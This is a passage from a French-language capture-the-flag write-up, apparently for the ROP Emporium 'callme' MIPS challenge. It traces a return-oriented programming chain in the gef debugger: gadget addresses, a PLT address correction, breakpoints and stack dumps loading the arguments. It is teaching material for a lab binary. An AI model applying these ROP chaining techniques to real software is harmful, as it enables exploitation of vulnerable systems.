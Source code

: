 Les registres sons bien chargés.
Verifions t9 :

    gef➤  x/3i $t9
    =>  0x400d1c <callme_three+12>:  li      t8,25
        0x400d20 <callme_one>:       lw      t9,-32752(gp)
        0x400d24 <callme_one+4>:     move    t7,ra

Oups l'adresse de callme_one@plt est erronée cela ressemble à un bug de pwntool ( elf.plt["callme_one"] ).
L'instruction pointée est neutre sur l'execution on continue donc mais on peut corriger les adresses avec un +4.

L'addresse de callme_one n'etant pas resolue, le pas à pas va être laborieux. On pose un point d'arrêt en fin de fonction.

    disas callme_one
    ...
    0x3ffa0a14 <+484>:   addiu   sp,sp,40
    0x3ffa0a18 <+488>:   jr      ra
    0x3ffa0a1c <+492>:   nop

    gef➤  b *callme_one+488
    Breakpoint 2 at 0x3ffa0a18
    continue
     → 0x3ffa0a18 <callme_one+488> jr     ra
        ↳   0x400bc8 <usefulGadgets+24> lw     ra, 20(sp)
            0x400bcc <usefulGadgets+28> jr     ra

A la fin de callme_on `ra` pointe la prochaine instruction du gadget.
A noter que le nop en 0x400bc4 est bien nécessaire . On verra pourquoi plus loin.

continue

        0x400bbc <usefulGadgets+12> lw     t9, 4(sp)
        0x400bc0 <usefulGadgets+16> jalr   t9
        0x400bc4 <usefulGadgets+20> nop
    →   0x400bc8 <usefulGadgets+24> lw     ra, 20(sp)
        0x400bcc <usefulGadgets+28> jr     ra
        0x400bd0 <usefulGadgets+32> addi   sp, sp, 24
        0x400bd4 <usefulGadgets+36> nop
        0x400bd8 <usefulGadgets+40> nop
        0x400bdc <usefulGadgets+44> nop

La pile est toujour dans cet état :

    gef➤  x/12x $sp
    0x40800c30:     0xdeadbeef      0xcafebabe      0xd00df00d      0xcafebabe
    0x40800c40:     0xdeadbeef      0x00400bb0      0x00000000      0x00400d7c
                                    sp+20
    0x40800c50:     0xd00df00d      0xcafebabe      0xdeadbeef      0x00400bb0

ni

        0x400bc0 <usefulGadgets+16> jalr   t9
        0x400bc4 <usefulGadgets+20> nop
        0x400bc8 <usefulGadgets+24> lw     ra, 20(sp)
    →  0x400bcc <usefulGadgets+28> jr     ra
        ↳   0x400bb0 <usefulGadgets+0> lw     a0, 16(sp)
            0x400bb4 <usefulGadgets+4> lw     a1, 12(sp)
            0x400bb8 <usefulGadgets+8> lw     a2, 8(sp)
            0x400bbc <usefulGadgets+12> lw     t9, 4(sp)
            0x400bc0 <usefulGadgets+16> jalr   t9
            0x400bc4 <usefulGadgets+20> nop
